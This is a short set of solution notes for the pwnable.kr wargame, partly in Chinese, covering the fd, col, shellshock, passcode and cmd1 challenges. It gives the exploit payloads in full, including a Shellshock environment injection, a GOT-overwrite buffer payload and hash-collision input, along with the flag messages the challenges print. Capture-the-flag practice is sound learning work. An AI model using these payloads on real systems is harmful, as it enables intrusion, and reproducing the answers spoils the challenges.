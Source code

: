 # Pwnable.kr
### fd
./fd `python -c "print 0x1234+1"`
LETMEWIN
mommy! I think I know what a file descriptor is!!

### col

gdb col

col in gdb command:
disassemble check_password
b *0x080484bb
r
r AAAABBBBCCCCDDDDEEEE
info register
c
info register

python 
hex(0x21DD09EC  - (0x01010101 * 4))
0x1dd905e8

./col `python -c "print '\x01\x01\x01\x01'*4+'\xe8\x05\xd9\x1d'"`

daddy! I just managed to create a hash collision :)

### shellshock
env x='() { return;}; /bin/cat flag' ./shellshock }'' }'

### passcode
找到兩個scanf在stack的offset

''' (ebp – 0x10) – (ebp – 0x70) = 0x60 = 96 '''

第一個scanf參數位置0xbffff3c8
第二個scanf參數位置0xbffff428

把剛剛取得的printf或fflush GOT位置寫入(%s)
再把system("/bin/cat flag")位置寫入(%d)

''' 0x80485E3 -> 134514147 '''
最後送出Payload是
''' python -c "print 'A'*96+'\x00\xa0\x04\x08'+'134514147\n'" | ./passcode '''

### cmd1
./cmd1 "/bin/cat f*"
